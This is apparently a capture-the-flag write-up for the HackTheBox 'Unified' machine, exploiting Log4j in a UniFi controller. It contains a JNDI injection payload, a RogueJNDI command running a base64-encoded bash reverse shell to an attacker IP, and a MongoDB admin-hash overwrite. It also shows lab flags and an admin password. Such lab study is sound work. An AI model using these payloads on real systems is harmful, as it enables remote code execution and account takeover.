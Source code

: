# HTB - Unified

Machine : unified
IP : 10.129.212.114
Vulnerability : Log4j

### NMAP SCAN

```jsx
$ nmap -A -sT -sU 10.129.212.114 -F

Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-23 09:14 EDT
Stats: 0:02:47 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 75.00% done; ETC: 09:17 (0:00:14 remaining)
Nmap scan report for 10.129.212.114
Host is up (0.28s latency).
Not shown: 99 closed udp ports (port-unreach), 97 closed tcp ports (conn-refused)
PORT     STATE         SERVICE         VERSION
22/tcp   open          ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open          http            Apache Tomcat (language: en)
|_http-title: Did not follow redirect to https://10.129.212.114:8443/manage
|_http-open-proxy: Proxy might be redirecting requests
8443/tcp open          ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
68/udp   open|filtered dhcpc
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   279.58 ms 10.10.14.1
2   282.51 ms 10.129.212.114
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 248.18 seconds
```

We have an SSH, 8080 and 9443 (possibly a webserver running), and 68 for DHCP.

The looks of the scan gives us an idea that this is a router OS

Going to the port 8080, it forwards us to port 8443 which shows us a Unifi login screen.
Service : Unifi
Version : 6.4.54

CVE : CVE-2021-44228

webserver : Apache Tomcat

This version of Unifi contains the java log4j vulnerability which gives us a Remote Code Execution Vulnerability.

We need to test if this vulnerability is active.
Open a packet listener on port 389 which is the default port for LDAP

```bash
sudo tcpdump -i tun0 port 389
```

Now capture the login request using burp suite and change:

```bash
{"username":"admin","password":"pass","remember":"false","strict":true}
to
{"username":"admin","password":"pass","remember":"${jndi:ldap://10.10.14.53/test}","strict":true}
```

![image.png](image.png)

Now if we look at the tcpdump listener we can see some request coming in from the server.

To exploit this vulnerability and obtain a reverse shell we need these apps installed: Java and Maven.

```bash
sudo apt install opnejdk-11-jre maven
```

we use java version 11 because of its long term support, compatability and stability.

In the previous step, we used tcpdumpfor testing. This time, we will use RogueJNDI, a malicious LDAP server for JNDI injection attacks.

Clone the repository and use Maven to compile the source code.
Usually, the source code needs to be customized to suit our needs before compiling. In this case, we don’t have to change anything.

```bash
git clone [https://github.com/veracode-research/rogue-jndi](https://github.com/veracode-research/rogue-jndi)
mvn package
```

![image.png](image%201.png)

After maven finished we can see this

![image.png](image%202.png)

In the same folder there is another one folder /target, in it, there is the compiled file called RogueJndi-1.1.jar: 

![image.png](image%203.png)

Now This build does not come with the payloads installed, we need to add them, after a few attempts I found that some special characters are not supported. So we need to encode the reverse shell code in base64.
`echo "bash -c 'bash -i >/dev/tcp/10.10.14.53/4444 0>&1'"`

we get the base64 version:
`YmFzaCAtYyAnYmFzaCAtaSA+L2Rldi90Y3AvMTAuMTAuMTQuNTMvNDQ0NCAwPiYxJwo=`

Next, we will run our payload with RogueJNDI. When the target performs a JNDI lookup, RogueJNDI will respond with the reverse shell payload.

```java
java -jar target/RogueJndi-1.1.jar \
  --command '{bash,-c} "{echo,YmFzaCAtYyAnYmFzaCAtaSA+L2Rldi90Y3AvMTAuMTAuMTQuNTMvNDQ0NCAwPiYxJwo=}|{base64,-d}|{bash,-i}"' \
  --hostname 10.10.14.53
```

![image.png](image%204.png)

We can see it running.

The malicious server, payload, and listener are ready. Now, we return to Burp Repeater.

In Burp Repeater, modify the request to interact with the Tomcat entry, then send it.

```json
“${jndi:ldap://10.10.14.53:1389/o=tomcat}”,
```

The malicious server, payload, and listener are ready.

Now lets start a netcat listener in port 4444

```bash
nc -lnvp 4444

```

Now, we return to Burp Repeater.

In Burp Repeater, modify the request to interact with the Tomcat entry, then send it.

```json
“${jndi:ldap://10.10.14.53:1389/o=tomcat}”,

```

Now if we go back we would have a connection in our netcat listener

![image.png](image%205.png)

and to get an interactive shell type:
`script /dev/null -c bash`

with that we can find the user flag by typing

```bash
cat /home/michael/user.txt
```

User Flag : `6ced1a6a89e666c0620cdb10262ba127`

Now we need the Root Flag

Lets login to the MongoDB server to see if there is something we can find there.

We can login to it using the command:

```bash
mongo --host 127.0.0.1 --port 27117
```

![image.png](image%206.png)

After looking at the admin ace database I found a collection named admin.

```sql
db.admin.find().pretty()
```

![image.png](image%207.png)

That gave us a interesting ID. The administer username and email along with the password hash.

The passwords is a sha-512, that means cracking the password is not a good option. But,

If we can modify them, it is possible to login by impersonating the administrator.

Lets start by creating our own password hash, In your own terminal type the following

)we will use the password “Password1234”)

```sql
mkpassword -m sha-512 Password1234
```

![image.png](image%208.png)

Now lets change the administrator password hash

Type this in the mongo shell.

```sql
db.admin.update({ _id:ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{x_shadow:"$6$MRZuwhWB67BdMNE0$THoLHRCw86NMJmNG8w5ywpeIIWB5vZdGK4HmEB5WmuRlXJQC7RHNXw/JriCQdKltENzqjTBFGrSsNaByEK/K0."}})
```

then login using administrator and Password1234.

![image.png](image%209.png)

If we go to the settings from the sidebar and scroll down we can see the admin password

![image.png](image%2010.png)

admin password : NotACrackablePassword4U2022

Now use that password to login via SSH and get the root flag

Root flag : `6ced1a6a89e666c0620cdb10262ba127`
